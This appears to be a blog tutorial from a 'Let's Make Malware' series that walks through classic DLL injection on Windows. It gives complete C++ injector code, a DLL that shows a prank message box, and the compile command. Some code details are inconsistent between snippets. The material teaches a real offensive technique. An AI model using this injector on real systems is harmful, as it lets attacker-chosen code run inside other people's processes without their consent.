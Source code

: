 ```yaml
---
layout: post
title: Let's Make Malware - Classic DLL Injection
---
```


Let’s make malware

This week, we will cover Classic DLL Injection. As the name suggests, instead of injecting shellcode into a process, we will be forcing a process to run a DLL of our choice. This technique will use many of the same Windows API functions we covered previously. We will introduce just three new ones. Those are GetProcAddress, GetModuleHandle, and LoadLibrary. Later in this series, we will see just how special those three calls are. But for now, let’s get started.

We will be using last week’s source code on Remote Process Injection and modifying it a bit. That codebase looked like this:

```cpp
#include “windows.h”
int main() {
//msfvenom Calc shellcode
unsigned char payload[] = {… don’t trust random shellcode blobs you find on the Internet … };
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 

```

The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:

```cpp
char myDLLPath[] = “C:\\Windows\\Temp\\myEvilDLL.dll”;
```

This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
            			break;
        		case DLL_THREAD_ATTACH:
            			break;
        		case DLL_THREAD_DETACH:
            			break;
        		case DLL_PROCESS_DETACH:
            			break;
    	}    
    	return TRUE;  
}
```

Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:

```cpp
	#include “windows.h”
	void execute() {
	MessageBox(NULL, "Don’t call the cops bro. It’s just a prank bro.", "You’re already under my control", MB_OK);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
		execute();
            				break;
        			case DLL_THREAD_ATTACH:
            				break;
        			case DLL_THREAD_DETACH:
            				break;
        			case DLL_PROCESS_DETACH:
            				break;
    		}    
    		return TRUE;  
}
```

We will cross-compile this using MinGW with the following command: 

x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp

Now, that we have our DLL, we can go back to our injector executable. 

The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:

```cpp
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.

Likewise for our call to WriteProcessMemory.

```cpp
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
```

Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:

```cpp
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle(“kernel32”), “LoadLibraryA”), buffer, 0, NULL);
```

To refresh, CreateRemoteThread is defined as such:

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Before we provided our buffer variable as the argument to the lpStartAddress parameter and set lpParameter to 0 as we did not need it. This time, however, we use a combination of GetProcAddress and GetModuleHandle to find the memory address of a third API: LoadLibrary. 

Our buffer variable, which contains the absolute path of our malicious DLL, is then passed to LoadLibrary as an argument forcing the remote process to run it. 

GetProcAddress will find the memory address of a function, also known as a procedure, and returns it. It is defined like so:

```cpp
FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

The first parameter is a handle to a module. Or in other words, a DLL. This is where GetModuleHandle comes in.

The second parameter is the function (procedure) we are looking for. 

GetModuleHandle does as its name suggests: returns a handle to a module.

It is defined like so:

```cpp
HMODULE GetModuleHandleA(
  [in, optional] LPCSTR lpModuleName
);
```

Its only parameter is the module name we are looking for. Many of the functions we want to use as malware developers are in Kernel32.dll. It is a special DLL because Windows loads it into every process by default.

Finally, we have LoadLibrary. This should be self-explanatory as its purpose is to load a library (DLL).

It is defined like so:

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

Its parameter is also self-explanatory. It needs the file name of the DLL we want it to load. Simple!

And that’s everything we need. Our full injector code will look like this:

```cpp
#include “windows.h”
int main() {
char myDLLPath[] = “C:\\Windows\\Temp\\myEvilDLL.dll”;
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle(“kernel32”), “LoadLibrary”), buffer, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 
```

One thing of note is that we need to change the last parameter in our call to OpenProcess to the PID of the process we want to inject into before compiling. We will keep things simple and use notepad again. 

Now, we need to transfer our malicious DLL onto a test machine to the Windows\Temp folder. Once we have that in place (and transferred our injector executable as well, of course), we can run our injector and watch the magic happen.

And there we have it! Our DLL attached to notepad and our message box popped up.

[Message Box](/assets/dll_injected_msgbox.png)

To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.

[Verifying DLL attached](/assets/dll_injected.png)
